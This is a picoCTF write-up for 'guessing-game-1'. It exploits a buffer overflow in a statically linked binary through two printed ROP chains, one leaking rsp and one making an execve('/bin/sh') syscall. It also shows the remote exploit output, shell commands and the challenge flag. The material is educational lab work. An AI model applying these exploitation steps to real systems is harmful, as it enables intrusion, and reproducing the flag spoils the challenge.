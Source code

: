 # guessing-game-1

PRNG, ROP (Leak address), rop2syscall

## checksec

```bash
[*] '/mnt/d/CTFs/picoCTF/Pwn/guessing-game-1/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE, so function addresses can be used as taken from the symbol table. 

The next section explains why we know that there is in fact no stack canary. 

## Other Details of Note (about the Binary)

The [Makefile](./Makefile) tells us that the binary is **statically-linked**, meaning all the used `libc` (and other included) functions are already linked into the [final executable](./vuln). This provides fertile ground to

1. utilize `libc` functions, and/or
2. farm for ROP gadgets. 

The Makefile also tells us that the binary was compiled with the `-fno-stack-protector` flag, so there is actually no stack canary. `pwntools` probably is detecting the presence of canaries due to their existence in (some/all of) the statically-linked functions. 

## Overview of Binary

The `win` function of the binary is as follows, where BUFSIZE is globally defined in a preprocessor macro to be 100

```c
void win() {
	char winner[BUFSIZE];
	printf("New winner!\nName? ");
	fgets(winner, 360, stdin);
	printf("Congrats %s\n\n", winner);
}
```

Clearly, there exists a possible buffer overflow to be exploited, and there is no canary, see [Other Details of Note (about the Binary)](#other-details-of-note-about-the-binary). 

To reach the `win` function, we need to pass a check against a value generated from an unseeded PRNG (incremented by 1), which isn't particularly difficult (see the [solve script](./solve.py) for use of the `ctype` library). 

## rop2libc

We're like to call `libc`'s `system`, but it is not used and thus not linked into the executable. 

Instead, we will use a syscall to run `execve` on the `/bin/sh` string. However, this requires that we first store the `/bin/sh` string at a known address. 

### ROP Chain 1: Storing the `/bin/sh` string

#### Attempt 1: Storing `/bin/sh` in a malloc-ed chunk

At first I attempted to perform a call to `malloc` and multiple calls to `memset` to store the `/bin/sh` string into a heap chunk, but this would definitely exceed the number of characters accepted by the vulnerable `fgets` function (we'd need to call `malloc` 8 times, for one). Nonetheless, some incomplete code can be found in [malloc_attempt.txt](./malloc_attempt.txt). 

#### Attempt 2: Leaking `rsp`

The concept of "leaking `rsp`" through ROP gadgets is that we move the value of `rsp` into `rdi`, and also write that value into (through intermediaries such as `rax` and writing into `[rdi + 0x8]`) whatever `rdi` will end up pointing to. 

If we then call `puts`, as long as there are no null bytes in the leaked `rsp` value before the leading null bytes (if there are, just re-run the exploit), then the little-endian architecture allows the value to be leaked, smallest-byte first. 

Finally, we call `win` to reopen the attack surface (i.e. "reset" the overflow vulnerability) so as to use the leaked value in [ROP Chain 2](#rop-chain-2-execvebinsh-syscall). 

The ROP chain to achieve this is as follows

```c
[*] ROP Chain 1:
    0x0000:         0x44cc26 pop rdx; ret
    0x0008:         0x44cc49 pop rdx; pop rsi; ret
    0x0010:         0x48315a
    0x0018:         0x410b62
    0x0020:         0x400ed8 pop rbx; ret
    0x0028:         0x410ca0 pop r13; pop r14; ret
    0x0030:         0x44f6c8
    0x0038:         0x45bf5b
    0x0040:         0x4172c6
    0x0048:         0x400ed8 pop rbx; ret
    0x0050:              0x8 __libc_tsd_LOCALE
    0x0058:         0x41025d pop r14; pop rbp; ret
    0x0060:      b'yaaazaab' <pad r14>
    0x0068:         0x44cc4a
    0x0070:         0x490d13
    0x0078:         0x44cc4b
    0x0080:         0x411120 puts()
    0x0088:         0x400c40 win()
```

For more detailed explanations of what each step is doing, refer to the comments written in the [solve script](./). 

Lastly, stepping through this other `win` function in gdb, we realize that by pure coincidence, the leaked `$rsp` value is exactly the starting of the address of the buffer of that the `fgets` in `win` writes to. 

We can therefore write `/bin/sh\x00` into the first 8 bytes of our buffer and the leaked `rsp` value will point right at it. 

> HINDSIGHT: Reading other players' writeups provided the realization that the `/bin/sh` string could have just as well been written into the `.data` or `.bss` segment (which is static as there is no PIE), thus avoiding all the above `rsp`-leaking shenanigans. Oh well, lesson learnt...

### ROP Chain 2: `execve("/bin/sh")` syscall

Based on [this reference about passing parameters to x86-64 syscalls](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) and [this StackOverflow post](https://stackoverflow.com/questions/36673765/why-can-the-execve-system-call-run-bin-sh-without-any-argv-arguments-but-not) (which is for x86, but apparently works in this x86-64 case too), in order to perform the `execve` syscall on the `/bin/sh` C string, we only need

1. `rax` = 0x3b,
2. `rdi` to contain a pointer to a `/bin/sh` string, 
3. `rsi` to contain a null pointer, and 
4. `rdx` to contain a null pointer. 

The ROP chain that achieves this is

```c
[*] ROP Chain 2:
    0x0000:         0x44cc49 pop rdx; pop rsi; ret
    0x0008:              0x0
    0x0010:              0x0
    0x0018:         0x4163f4 pop rax; ret
    0x0020:             0x3b
    0x0028:         0x400696 pop rdi; ret
    0x0030:   0x7fff03638ee0
    0x0038:         0x40137c syscall
```

where the value at `0x0030` is the leaked `rsp` value from ROP chain 1. 

## Flag

```python
[+] Opening connection to jupiter.challenges.picoctf.org on port 26735: Done
[*] Loaded 128 cached gadgets for './vuln'
[*] ROP Chain 1:
    0x0000:         0x44cc26 pop rdx; ret
    ...
[*] hex(leaked_rsp)='0x7fff7175b850'
[*] ROP Chain 2:
    0x0000:         0x44cc49 pop rdx; pop rsi; ret
    ...
[*] Switching to interactive mode
Congrats /bin/sh

$ ls
flag.txt
vuln
vuln.c
xinet_startup.sh
$ cat flag.txt
picoCTF{r0p_y0u_l1k3_4_hurr1c4n3_b751b438dd8c4bb7}
```

## Interesting Alternative Methods (Other Writeups)

- [Using the statically-linked `_dl_make_stack_executable` to make the stack executable](https://github.com/onealmond/hacking-lab/blob/master/picoctf-2020/guessing-game1/writeup.md)